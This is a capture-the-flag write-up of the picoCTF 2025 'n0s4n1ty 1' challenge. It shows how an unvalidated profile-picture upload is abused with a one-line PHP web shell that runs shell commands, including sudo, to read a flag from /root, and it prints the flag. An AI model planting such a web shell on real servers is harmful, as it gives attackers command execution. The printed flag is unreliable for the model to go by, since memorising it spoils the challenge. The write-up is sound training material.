 # :briefcase: n0s4n1ty 1

- **Difficultly**: `Easy`
- **Category**: `Web Exploitation`
- **Platform**: `picoCTF 2025`
- **Tag**: `browser_webshell_solvable`
- **Author**: `Prince Niyonshuti N.`
- **Date**: `19/05/2025`

---

# :pencil: Description

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory. You can access the web application here!

---

# :hammer_and_wrench: Solution

1. Access the link

    ![image1](images/image1.png)

2. Try uploading any file

    ![image2](images/image2.png)

3. Because the file upload functionality is written in PHP (as seen in the page source), we will try writing a PHP script that allows executing system commands

    ```php
    <?php system($_GET["command"]); ?>
    ```
    
    Save to PHP file

4. Upload that file to website `>` Access that file via the displayed path `>` Because we haven't entered parameter yet, it will displayed like that 

    ![image3](images/image3.png)

    Enter the URL with `?command=ls`

    ![image4](images/image4.png)

    So it works `>` Okay, since our flag is located in the `/root` directory, enter `sudo ls /root`

    ![image5](images/image5.png)

    Read it

    ![image6](images/image6.png)

---

# :white_flag: Flag

> picoCTF{wh47_c4n_u_d0_wPHP_a4ca6ea0}

---

# :writing_hand: Notes

1. `system` — Execute an external program and display the output.
2. File upload vulnerabilities are when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size.

---

# :books: Resources

1. [PHP: system - Manual](https://www.php.net/manual/en/function.system.php)
2. [File uploads | Web Security Academy](https://portswigger.net/web-security/file-upload)
3. [File Upload Vulnerabilities: Advanced Exploitation Guide](https://www.intigriti.com/researchers/blog/hacking-tools/insecure-file-uploads-a-complete-guide-to-finding-advanced-file-upload-vulnerabilities)
